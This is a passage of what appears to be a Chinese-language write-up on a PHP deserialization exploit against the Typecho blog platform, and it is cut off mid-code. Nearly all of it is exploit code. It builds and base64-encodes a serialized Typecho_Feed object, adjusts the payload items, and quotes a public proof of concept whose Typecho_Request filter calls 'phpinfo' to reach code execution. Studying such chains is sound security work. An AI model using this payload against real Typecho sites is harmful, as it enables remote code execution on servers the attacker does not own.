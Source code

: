 ```

    }
}
$config=array("adapter"=>new Typecho_Feed(),"prefix"=>'dawnt0wn');
echo base64_encode(serialize($config));
?>
```

![image-20210814124552246](images/22.png)

如果嫌报错有点多了的话,这里可以这么写

```
$this->_items = array(
				array(
					"title" => "test",
					"link" => "test",
					"data" => "20190430",
					"author" => new Typecho_Request(),
				),
			);
```

另外给出网上的poc

```
<?php
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();

    public function __construct()
    {
        // $this->_params['screenName'] = 'whoami';
        $this->_params['screenName'] = -1;
        $this->_filter[0] = 'phpinfo';
    }
}

class Typecho_Feed
{
    const RSS2 = 'RSS 2.0';
    /** 定义ATOM 1.0类型 */
    const ATOM1 = 'ATOM 1.0';
    /** 定义RSS时间格式 */
    const DATE_RFC822 = 'r';
    /** 定义ATOM时间格式 */
    const DATE_W3CDTF = 'c';
    /** 定义行结束符 */
    const EOL = "\n";
    private $_type;
    private $_items = array();
    public $dateFormat;

    public function __construct()
    {
        $this->_type = self::RSS2;
        $item['link'] = '1';
        $item['title'] = '2';
        $item['date'] = 1507720298;
        $item['author'] = new Typecho_Request();
        $item['category'] = array(new Typecho_Request());

        $this->_items[0] = $item;
```